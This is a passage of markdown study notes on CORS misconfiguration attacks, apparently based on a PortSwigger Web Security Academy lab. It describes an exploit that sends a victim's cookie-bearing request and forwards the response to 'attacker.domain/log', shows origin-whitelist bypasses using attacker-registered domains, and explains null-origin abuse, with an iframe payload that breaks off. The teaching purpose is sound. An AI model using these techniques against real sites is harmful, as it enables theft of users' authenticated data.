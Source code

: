```html
```
- ##### Explanation  Above Code
	- step one `req` send a request with by cookies To the vulnerable site.
	- step two when loaded `req`  function reqlistener run and send responseText `req`  To attacker.domain/l`og?key` 
### Errors parsing Origin headers

Some applications that support access from multiple origins do so by using a whitelist of allowed origins. When a CORS request is received, the supplied origin is compared to the whitelist. If the origin appears on the whitelist then it is reflected in the `Access-Control-Allow-Origin` header so that access is granted. For example, the application receives a normal request like:

`GET /data HTTP/1.1 Host: normal-website.com ... Origin: https://innocent-website.com`

The application checks the supplied origin against its list of allowed origins and, if it is on the list, reflects the origin as follows:

`HTTP/1.1 200 OK ... Access-Control-Allow-Origin: https://innocent-website.com`

Mistakes often arise when implementing CORS origin whitelists. Some organizations decide to allow access from all their subdomains (including future subdomains not yet in existence). And some applications allow access from various other organizations' domains including their subdomains. These rules are often implemented by matching URL prefixes or suffixes, or using regular expressions. Any mistakes in the implementation can lead to access being granted to unintended external domains.

For example, suppose an application grants access to all domains ending in:

`normal-website.com`

An attacker might be able to gain access by registering the domain:

`hackersnormal-website.com`

Alternatively, suppose an application grants access to all domains beginning with

`normal-website.com`

An attacker might be able to gain access using the domain:

`normal-website.com.evil-user.net`




## Whitelisted null origin value
- The specification for the Origin header supports the value `null`. Browsers might send the value `null` in the Origin header in various unusual situations:
- Cross-origin redirects.
- Requests from serialized data.
- Request using the `file:` protocol.
- Sandboxed cross-origin requests.
- Some applications might whitelist the `null` origin to support local development of the application. For example, suppose an application receives the following cross-origin request:
```http
GET /sensitive-victim-data
Host: vulnerable-website.com 
Origin: null
```
- And the server responds with:
```http
HTTP/1.1 200 OK 
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```
- In this situation, an attacker can use various tricks to generate a cross-origin request containing the value `null` in the Origin header. This will satisfy the whitelist, leading to cross-domain access. For example, this can be done using a sandboxed `iframe` cross-origin request of the form:
- ##### [lab](https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack)
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script> 
```